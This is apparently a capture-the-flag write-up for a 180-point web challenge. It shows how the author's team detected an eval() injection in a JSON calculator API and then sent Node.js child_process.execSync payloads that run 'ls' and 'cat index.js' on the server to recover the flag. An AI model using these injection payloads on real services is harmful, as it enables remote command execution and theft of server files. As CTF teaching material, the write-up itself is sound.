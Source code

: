 #Let's dance (Web - 180 pts)

### [~$ cd ..](../)

Author [Renaud11232](https://renaud11232.github.io/)

> One of my friends created an online calculator yesterday! However he had some issues with his API endpoint.. Could you take a look at this example request?

For this challenge, we were asked to find and exploit a vulnerability in a simple web API.

The API had only one route accepting only `POST` requests. The requests body were meant to be simple equations that were going to be solved. The requests and responses were `json` formatted.

The requests body looked like this:

```json
{
	"equation": "1+1"
}
```
And the responses:
```json
{
	"result": 2
}
```

We first tried some very crude buffer overflows and stack overflows by sending massive requests and equations with a lot of parenthesis. None of that worked.

Then we thought the backend may use a function like `eval(expr)` to compute the result, so we gave it a try. Sending :
```json
{
	"equation": "eval(1)"
}
```
gave us the following response :
```json
{
	"result": 1
}
```

Here we had found the vulnerability but not yet the language used, so we just sent another request :
```json
{
	"equation": "eval(1);"
}
```
This also gave us a successful response :
```json
{
	"result": 1
}
```
From here we thought about either a `php` or `js` server.
We placed our bet on `js` and tried the following request :
```json
{
	"equation": "var dummy = 1;"
}
```
This also gave us a successful response :
```json
{
	"result": 1
}
```
From here we started building a payload allowing us to execute commands on the server :

```json
{
		"equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('ls')).toString('hex');out;"
}
```

Which gave us `index.js` in hexadecimal. Then we made a last request :

```json
{
		"equation": "const exec = require('child_process').execSync;var out = Buffer.from(exec('cat index.js')).toString('hex');out;"
}
```

This gave us all the code of the server which contained the flag.

DONE